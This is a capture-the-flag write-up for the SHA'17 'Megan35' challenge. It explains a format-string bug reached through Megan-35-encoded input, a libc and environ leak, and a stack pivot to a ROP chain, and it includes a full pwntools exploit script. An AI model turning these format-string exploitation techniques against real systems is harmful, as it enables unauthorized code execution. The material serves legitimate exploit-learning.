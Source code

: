 ```yaml
---
layout: post
comments: true
title: SHA'17 - Megan35 (200pts)
---
```


Megan-35 is an Encryption algorithim which has been directly implemented in this program. It takes a string, encrypts it
and then stores it in another buffer. Then however, it does
`printf(buf);`

Format String bug. If we send in a string which when decoded gives `%p` then we will trigger the fms.

Instead of building an encryptor for my program itself, I used an [online service](http://hackers.co.id/megan-35.php).

ASLR is disabled on the server but we still don't know any address. So start with leaking libc.
After leaking libc, use `%s` and provide address of **environ**. That will get us stack address.

Then I simply pivoted stack to where my ropchain is.

Full exploit code:
```python
#!/usr/bin/python
from pwn import *

p = process("./megan-35",env={"LD_PRELOAD":"./libc.so.6"})
#p = remote("megan35.stillhackinganyway.nl", 3535)
raw_input()
# Magic = 0xf7e5a819
#buf = p32(0xffffde4c)
# Overwrite with 0x080484e0.
buf = p32(0x08049f0c)

buf += (p32(0xdeadbeef))*3
buf += p32(0xf7e53940)
#buf += p32(0xf7e5a940)
buf += p32(0xdeadbeef)
buf += p32(0x80482d6)
buf += p32(0xdeadbeef)
buf += p32(0xdeadbeef)
# Overwrite de3c with address of our code (dc20). So stack pivoting kind of.
#buf += pad
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfq"
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvkLy5"

# environ address.
#buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZerRt=yOdNvkLy5"

buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZesTIbqoHesSgXV"
########

#buf = p32(0xf7fd1dbc)
buf = p32(0xf7fcadbc)
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesShR5"
buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmq55"

########

log.info("Length: " + str(len(buf)))
p.sendline(buf)

leak = p.recv()
leak = p.recv()
leak = leak.split()
print leak
leak = leak[len(leak)-1]
leak = leak[0:4]
leak = u32(leak)
print hex(leak)

p.interactive()

```
